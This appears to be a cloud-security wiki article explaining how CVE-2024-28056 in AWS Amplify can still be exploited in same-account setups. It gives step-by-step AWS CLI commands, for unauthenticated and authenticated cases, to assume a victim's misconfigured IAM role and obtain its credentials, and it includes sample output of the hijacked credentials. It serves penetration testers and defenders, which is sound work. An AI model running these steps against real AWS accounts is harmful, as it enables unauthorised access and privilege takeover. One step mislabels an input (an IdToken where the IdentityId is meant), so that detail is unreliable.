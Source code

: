 ```yaml
---
author_name: Nick Frichette
title: "CVE-2024-28056: Exploit an AWS Amplify Vulnerability in Same-Account Scenarios"
description: An in-depth explanation of how to still abuse CVE-2024-28056, a vulnerability in AWS Amplify that exposed IAM roles to takeover.
---
```


<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/">Amplified exposure: How AWS flaws made Amplify IAM roles vulnerable to takeover</a> by <a href="https://x.com/Frichette_n">Nick Frichette</a></p>
    <p><img src="https://pbs.twimg.com/profile_images/1823034546369216512/XSok3NRz_400x400.jpg" alt="Nick Frichette" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>

-   :material-book:{ .lg .middle } __Additional Resources__

    ---

    [AWS Security Bulletin: CVE-2024-28056](https://aws.amazon.com/security/security-bulletins/AWS-2024-003/)
</div>

## Background

In April of 2024, Security Researchers at [Datadog](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/) found a vulnerability in the [AWS Amplify](https://aws.amazon.com/amplify/) service that exposed IAM roles associated with the service to takeover. In particular, under two different scenarios the Amplify service was setting the role trust policies of certain roles to improperly limit which [Cognito identity pool](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-identity.html) could assume them. As a result, anyone could create their own identity pool (or find one on the internet) and use it to assume these vulnerable roles.

In response to this, AWS made a number of changes to IAM and the [AWS Security Token Service](https://docs.aws.amazon.com/STS/latest/APIReference/welcome.html) (STS) APIs. In particular, this involved:

* Releasing a fix to the [Amplify CLI](https://github.com/aws-amplify/amplify-cli/releases/tag/v12.10.1) and Amplify Studio preventing the creation of more vulnerable roles.
* Made changes to the IAM control plane to prevent anyone from creating role trust policies vulnerable to this misconfiguration. If you try to set a vulnerable policy today it will be rejected.
* Made changes to the STS service to **block cross-account role assumption of roles that have a vulnerable trust relationship with the Amazon Cognito service**.

This final fix is interestingly specific. AWS only made changes to block **cross-account** role assumption, not **same-account** role assumption. As a result of this, we can still potentially take advantage of roles that were made vulnerable by the Amplify service. This requires an identity pool to be configured in the victim account with the [basic (classic) authflow](https://docs.aws.amazon.com/cognito/latest/developerguide/authentication-flow.html) enabled.

!!! Warning
    **To be clear, this method is more difficult and requires the existence of at least one additional misconfigured resource**, however it is worthwhile to know about if you are a Penetration Tester or Red Teamer, or you simply use Amplify in your own organization.

!!! Note
    This is not realistically something that can be "fixed". AWS was able to block cross-account role assumption because it was a sufficiently rare occurrence. By comparison, same-account role assumption using Cognito is (as of today) the only method available. If you have IAM roles in your account which are vulnerable to this exposure it is recommended to delete them, or change their trust policy in addition to relying on the fixes that AWS provided.

## Unauthenticated Example

![Unauthenticated Scenario](../../../images/aws/exploitation/exploit_amplify_vulnerability_in_same_account_scenario/unauth_same_account_scenario.png)

In this scenario, there exists a vulnerable role in the account, alongside an identity pool that has the basic authflow enabled. This role's trust policy does not require authentication to assume. Here is an example of a vulnerable trust policy:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity"
        }
    ]
}
```

!!! Note
    There is another variant of this misconfiguration where the trust policy includes a condition for `cognito-identity.amazonaws.com:amr` that is set to `unauthenticated`.

### Steps to Exploit

In order to assume a role that has this vulnerable trust policy, follow these steps:

1. Using the AWS CLI, perform the following command: `aws cognito-identity get-id --identity-pool-id <victim identity pool id>`
    * This can typically be found in the client side JavaScript of the web application using this identity pool.
2. Using the `IdentityId` from step one, perform the following command: `aws cognito-identity get-open-id-token --identity-id <identity id from step 1>`
    * This will return a JWT we can use to authenticate to the vulnerable role. You can inspect this JWT if you so choose.
3. With this JWT, perform the following command: `aws sts assume-role-with-web-identity --role-arn <vulnerable role ARN> --role-session-name <session name of your choosing> --web-identity-token <JWT from step 2>`
    * The vulnerable role ARN will need to be [brute-forced](../../enumeration/enum_iam_user_role.md), [derived from other values](../../enumeration/enumerate_principal_arn_from_unique_id.md), found in [source control](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/#results-finding-misconfigured-roles-in-the-wild), or a variety of other means.

By following these steps you should successfully generate IAM credentials for the vulnerable role:

```json
{
    "Credentials": {
        "AccessKeyId": "ASIA123ABC456DEF789G",
        "SecretAccessKey": "123ABC456DEF789G123ABC456DEF789GHI012JKL",
        "SessionToken": "...snip...",
        "Expiration": "2024-07-31T20:02:33+00:00"
    },
    "SubjectFromWebIdentityToken": "us-east-1:00000000-1111-2222-3333-444444444444",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROA123ABC456DEF789G:hijacked_role",
        "Arn": "arn:aws:sts::111111111111:assumed-role/vulnerable-amplify-role/hijacked_role"
    },
    "Provider": "cognito-identity.amazonaws.com",
    "Audience": "us-east-1:aaaaaaaa-1111-bbbb-2222-cccccccccccc"
}
```

## Authenticated Example

In an authenticated scenario, the identity pool in the victim account must be configured to support authentication with a [Cognito user pool](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-identity-pools.html). An example vulnerable role trust policy can be found below:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "",
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "ForAnyValue:StringLike": {
                    "cognito-identity.amazonaws.com:amr": "authenticated"
                }
            }
        }
    ]
}
```

### Steps to Exploit

In order to assume a role that has this vulnerable trust policy, follow these steps:

1. First, find credentials for a user account in the pool. If you cannot steal or create credentials you cannot continue.
2. Authenticate to the user pool using [cognito-idp:InitiateAuth](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/initiate-auth.html). The specific command you will need to use will differ depending on the type of authentication in place. Please refer to the documentation for more information. Here we will demonstrate using `USER_PASSWORD_AUTH`.
    * Run the following command: `aws cognito-idp initiate-auth --auth-flow USER_PASSWORD_AUTH --client-id <client id of the victim user pool> --auth-parameters USERNAME=<username>,PASSWORD=<password>`
    * This will return an `IdToken` that will be used in the next step.
    * Note: The `AccessToken` is **NOT** the same as the `IdToken`. 
3. Run the following command: `aws cognito-identity get-id --identity-pool-id <victim identity pool id> --logins '{"cognito-idp.<region>.amazonaws.com/<victim user pool id>":"<IdToken from step 2>"}'`
    * This will return an `IdentityId` that will be used in the next step.
4. Run the following command: `aws cognito-identity get-open-id-token --identity-id <IdToken from step 3> --logins '{"cognito-idp.us-east-1.amazonaws.com/<victim user pool id>":"<IdToken from step 2>"}'`
    * Note: You **MUST** include the `logins` parameter, it is not optional.
    * This will return a JWT we will use in the next step.
5. With this JWT, perform the following command: `aws sts assume-role-with-web-identity --role-arn <vulnerable role ARN> --role-session-name <session name of your choosing> --web-identity-token <JWT from step 4>`

By following these steps you should successfully generate IAM credentials for the vulnerable role.
